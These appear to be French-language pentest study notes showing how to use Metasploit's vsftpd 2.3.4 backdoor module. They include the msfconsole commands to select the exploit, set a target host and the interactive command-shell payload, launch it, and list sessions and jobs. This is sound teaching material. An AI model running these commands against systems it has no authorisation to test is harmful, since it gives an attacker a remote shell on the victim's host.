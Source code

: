 `OSVDB` Open-Source VulN DataBase qui est une base de données Open-Source de ExploitDB, pas toujours à jours.

### Exploitation

```bash
msf6 > use exploit/unix/ftp/vsftpd_234_backdoor
[*] No payload configured, defaulting to cmd/unix/interact

msf6 exploit(unix/ftp/vsftpd_234_backdoor) > options

Module options (exploit/unix/ftp/vsftpd_234_backdoor):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS                   yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/
                                      Using-Metasploit
   RPORT   21               yes       The target port (TCP)


Payload options (cmd/unix/interact):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Exploit target:

   Id  Name
   --  ----
   0   Automatic
   
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > set RHOSTS 192.168.2.1
RHOSTS => 192.168.2.1
```

`options` permet d'avoir les info.
Les payload sont dependents de l'Exploit.

> set payload cmd/unix/interact

C'est le seul proposé pour cet exploit.

- Execute l'exploit en interfactive => une `session`
> exploit

- Execute en tache de fond
> exploit -j

- list des sessions en cours
> sessions

- list des jobs en cours
> jobs
